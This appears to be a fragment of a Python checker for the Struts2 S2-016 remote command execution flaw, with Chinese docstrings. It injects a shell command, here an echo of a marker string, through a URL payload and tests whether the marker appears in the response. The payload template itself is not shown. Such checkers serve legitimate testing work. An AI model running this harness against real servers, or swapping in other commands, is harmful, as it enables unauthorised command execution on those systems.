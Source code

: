 ```python
    def filter(self, check_str):

        """
        过滤无用字符

        :param str check_str:待过滤的字符串

        :return str temp:过滤后的字符串
        """
        
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp   
    
    def parser_cmd(self, cmd):

        """
        命令解析,将要执行的命令解析为字符串格式,如echo 123 解析为"echo", "123"

        :param str cmd: 待解析的命令

        :return: cmd_str 解析后的字符串
        """

        cmd = shlex.split(cmd)
        cmd_str = '"' + '","'.join(cmd) + '"'
        return cmd_str

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        check_req = requests.get(self.url + self.payload.format(cmd = urllib.parse.quote(self.parser_cmd('echo' + ' ' + self.capta) )), headers = self.headers)
        check_str = self.filter(list(check_req.text))
        try:
            if self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    s2_016 = S2_016_BaseVerify('http://localhost:8080/s2_016_war_exploded/')
    print(s2_016.run())
```
